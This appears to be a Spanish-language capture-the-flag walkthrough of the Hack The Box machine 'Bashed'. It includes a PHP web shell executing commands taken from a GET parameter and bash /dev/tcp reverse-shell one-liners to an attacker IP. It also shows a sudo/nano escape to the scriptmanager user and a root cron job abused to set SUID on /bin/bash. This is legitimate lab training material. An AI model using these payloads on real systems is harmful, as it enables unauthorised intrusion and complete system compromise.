




# Bashed

10.129.34.196



Launchpad -> Xenial



Hay un archivo expuesto *10.129.34.196/dev/phpbash.php* que es una consola interactiva xd
Accedemos a la carpeta *var/www/html/uploads* que tiene permisos 777 para hacer maldades
Nos montamos un servidor en nuestra máquina con
```bash
python3 -m http.server
```

Para subir una archivo en php que interprete desde la web
```php
<?php echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>"; ?>
```

Accedemos al recurso lanzándonos una shell con el oneliner /dev/tcp
```bash
10.129.34.196/uploads/shell.php?cmd=bash -c "bash -i >%26/dev/tcp/10.10.17.61/4444 0>%261"
```

**www-data**

## Escalada

Con
```bash
sudo -l
```

vemos que podemos ejecutar cualquier comando como el usuario **scriptmanager**
Buscando por directorios que pertenezcan a este usuario encontramos una carpeta */scripts*
```bash
find / -user scriptmanager 2>/dev/null
```

Vemos dos archivos dentro, uno pertenece a root y otro a scriptmanager, podremos ver su contenido ejecutando el *cat* con
```bash
sudo -u scriptmanager cat /scripts/test.txt
```

Encontramos una posible contraseña en **test.txt**
*testing 123!*
No es paswd de *www-data*

**valía con hacer
```bash
sudo -u scriptmanager bash
```

**

Nos aprovechamos de que podemos abrir archivos con *nano* ejecutados por script manager con
```bash
sudo -u scriptmanager nano /scripts/test.py
```

- GTFOBins -> Entramos en modo interactivo de nano para ejecutar comandos con
*CTRL+r y CRTL+x*
Nos enviamos una consola con el oneliner
```bash
bash -c "bash -i >&/dev/tcp/10.10.17.61/443 0>&1"
```

**scriptmanager**

Vemos que existen dos archivos en la carpeta /scripts
- test.py
- test.txt
El primero pertenece a **scriptmanager** y se encarga de abrir y escribir en el segundo una cadena. Test.txt pertenece a **root** -> Huele a que hay un proceso cron que ejecuta el *.py* para escribir en el txt
- Buscamos procesos cron pero no encontramos nada
Ejecutando los procesos que corren en el sistema
```bash
ps -eo user,command
```

-e: muestras todos los procesos, con y sin tty
-o: aplica formato de salida mostrando columanas indicadas

Vamos a crearnos un script que monitoree internamente si hay algún cambio en los procesos que se ejecutan en cada momento en el sistema
```
#!/bin/bash

old_process="$(ps -eo user,command)"

while true; do
new_process="$(ps -eo user,command)"
diff <(echo "$old_process") <(echo "$new_process") | grep "[\<\>]" | grep -vE "kworker|process_monitor"
old_process=$new_process
done
```
- **diff** se encarga de comparar los resultados del comando ps
- **grep "[ \<\>]"** filtra por procesos que se añaden **>** y procesos que desaparecen **<**
- **grep -vE "kworker|process_monitor"** elimina el contenido que haga match con *kworker* (procesos del kernel que no nos interesan) y con *process_monitor* (procesos del propio script)

Vemos que root de forma programada con CRONejecuta con python todos los archivos *.py* que hay dentro del directorio /scripts



De esta forma vemos que **root** ejecutará el archivo test.py, por lo que podremos cambiarle los permisos a las bash para que sea SUID
- Contenido de *test.py*
```bash
import os
os.system("chmod 4755 /bin/bash")
```

Monitoreamos el valor de los permisos de la /bin/bash a cada segundo con el comando *watch*
```bash
watch -n1 ls -l /bin/bash
```

Vemos como el permiso de */bin/bash* adquiere SUID



Nos ejecutamos una
```bash
bash -p
```

**root**
